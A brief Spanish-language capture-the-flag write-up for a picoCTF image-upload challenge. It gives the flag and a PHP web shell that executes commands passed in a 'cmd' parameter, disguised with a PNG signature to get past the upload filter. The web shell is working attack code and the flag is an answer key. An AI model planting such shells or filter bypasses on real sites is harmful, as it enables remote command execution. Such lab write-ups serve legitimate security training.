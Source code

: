 ## Descripción:
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:62676/)!

Hints:
None
## Solución:
```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
```

## Notas:
Subí un archivo .php
```
PNG
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```
que al inicio contiene PNG al principio para que tenga la firma que es un archivo png y se pueda subir y ejecutar

Seguí su tutorial en YT para que tenga más visitas